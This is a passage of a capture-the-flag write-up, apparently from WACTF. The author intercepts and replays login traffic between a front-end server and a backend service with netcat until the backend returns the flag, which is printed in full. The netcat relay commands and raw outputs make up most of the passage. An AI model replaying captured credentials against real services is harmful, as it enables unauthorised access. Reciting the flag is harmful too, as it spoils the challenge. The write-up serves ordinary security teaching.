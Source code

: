We did get a hit from the front-end server with our credentials. 

Because the message earlier said that the backend showed the front end server the flag we can safely assume that if we just send this response to the server it should give us the flag right? well not so soon as the server just sent the following response.

```
shellbox:~$ nc 10.4.15.41 31337 -vvv < front-endserver-1.out | tee -a backend-server-1.out 
;
 LoginResultSuccessVeryImportantData
3
xxPsZ
```

But where is flag?

At this stage I thought the bytes at the end were the flag just encrypted and I would have to figure out a way to decrypt them. However, I am horrible at crypto stuff and thought maybe ill just try to send this response to the front end server and see what it says? 

After sending this response to the front end server we get another response.

```
shellbox:~$ nc -nvlp 2222 < backend-server-1.out | tee -a front-endserver-2.out 
Listening on [0.0.0.0] (family 0, port 2222)
Connection from 10.0.25.21 30016 received!
LoginMsUsername
              Password
FloatingPoinSliceOfFloatiestantN[]float6admintantNumber
                                             AnotherYear?Zd?
@4
  PostLoginMsgExtremelyNormalWord[]string

CBirthdays was the worst days, now we sip champagne when we thirsty.UHomicide's illegal and death is the penalty/What justifies the homicide when he dies?UHomicide's illegal and death is the penalty/What justifies the homicide when he dies?-A bird in the hand is worth more than a Bush.vHey, hey! Mr La Di Da Di/Money is all that you got/In a world full of greed/Music is everything that I need (Hot damn)Elvis was a hero to most/But he never meant ___ to me. You see/Straight up racist that sucker was, simple and plain/____ him and John Wayne.7We can’t change the world unless we change ourselves.YI'm a proud black Yolngu boy with the killer flow/Listen to the yidaki, listen to it blowRawakpuy Yindi djal nhaburr dhuwal kirtjirr/Nharow Yolngu balanda bungul/Gu dhumurryurra nganya marrtji gu/Nhuaburr ga djal dhirr nhaburr dhu weripugom/Walalung mangutji marrka manapunmirr/Weripu weripu minytji gu/Babuyurranha nganya marrtji guYI'm a proud black Yolngu boy with the killer flow/Listen to the yidaki, listen to it blow
```

Whoa that is a lot of different strings I did not get before. 

There was a very clear pattern of intercepting the responses and forwarding so doing that again gave us the following:

```
shellbox:~$ nc 10.4.15.41 31337 < front-endserver-2.out | tee -a backend-server-2.out 
;
 LoginResultSuccessVeryImportantData
@\x(ħF带6"
          PostLoginRspMoreNormalWordsMac11s
                                           ThirtyEightsNinesMac10sJustIgnoreThisBit
JoinYourUnio[]string
                    (vHey, hey! Mr La Di Da Di/Money is all that you got/In a world full of greed/Music is everything that I need (Hot damn)Elvis was a hero to most/But he never meant ___ to me. You see/Straight up racist that sucker was, simple and plain/____ him and John Wayne.7We can’t change the world unless we change ourselves.<WACTF{Reduce_Reuse_Recycle_8e33ae46ef68409b2face55ac3bd651d}7We can’t change the world unless we change ourselves.yMarram nheli earphone/Buthururulil nhirrpun/Babuyurra thumurryurra/Thurrguyurra ga Runthuyurra/Marrtji ngany dhugarrgurraYI'm a proud black Yolngu boy with the killer flow/Listen to the yidaki, listen to it blowYI'm a proud black Yolngu boy with the killer flow/Listen to the yidaki, listen to it blow7We can’t change the world unless we change ourselves.shellbox:~$
```